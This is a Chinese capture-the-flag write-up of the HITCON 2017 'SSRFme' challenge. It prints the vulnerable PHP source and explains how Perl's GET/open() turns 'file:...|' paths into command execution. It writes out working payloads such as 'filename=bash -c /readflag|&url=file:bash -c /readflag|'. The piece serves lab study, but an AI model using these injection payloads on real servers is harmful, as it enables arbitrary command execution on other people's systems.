







# [HITCON 2017]SSRFme

## 知识点

`php代码审计`

`PERL函数漏洞`

## 解题

题目给了源码

```php
112.116.208.226 <?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

用`docker`在本地搭建一个环境

```bash
docker run -tid --name xiaopi -p 8080:80 -p 443:443 -p 9080:9080 -p 3306:3306 -p 20:20 -p 21:21 --privileged=true --restart always -v xiaopi_www:/www -v G:/yourcode:/www/wwwroot 1105646436/xp:xiaopi
```



我不想路径被`ip`地址限制，根据

```php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];
```

我将`$_SERVER["REMOTE_ADDR"]`改为了`1`

对应`orange1`的`md5`值就是固定的，即`b3e24b7672fddf21613da79b21ff7c99`

```php
$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);
```

对应的路径就是固定的`sandbox/b3e24b7672fddf21613da79b21ff7c99`

这题的核心在于

```php
$data = shell_exec("GET " . escapeshellarg($_GET["url"]));
$info = pathinfo($_GET["filename"]);
$dir  = str_replace(".", "", basename($info["dirname"]));
@mkdir($dir);
@chdir($dir);
@file_put_contents(basename($info["basename"]), $data);
```

`GET`可以用来列举参数路径的目录（路径支持`file`协议）

漏洞在于`GET`命令执行过程中调用了`open`函数，而`open`函数存在任意命令执行的漏洞，只需要构造如下格式`payload`，并保证当前目录下存在以`payload|`为路径存在对应的文件就能实现任意命令执行。

```bash
GET file:Payload|
```

如执行`whoami`命令（需要注意携带`payload`访问两次页面，其中第一次用来创建对应路径的文件）。

```bash
?filename=whoami|&url=file:whoami|
```









需要执行根目录的`readflag`,交给`bash -c`即可

```bash
?filename=bash -c /readflag|&url=file:bash -c /readflag|
```





[参考文章](https://www.cnblogs.com/Article-kelp/p/16062717.html)
